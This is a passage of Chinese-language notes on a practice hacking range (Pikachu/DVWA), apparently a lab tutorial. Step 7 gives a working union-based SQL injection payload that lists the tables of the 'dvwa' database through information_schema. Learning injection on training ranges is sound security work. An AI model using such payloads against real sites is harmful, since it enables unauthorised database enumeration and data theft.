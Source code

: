 ![image-20230814213457277](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230814213457277.png)

---

---

跨表查询：↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓

**7、查看指定dvwa数据库下的所有表名信息**

```sql
?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where  table_schema='dvwa' --+
```

![image-20230814214008586](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230814214008586.png)

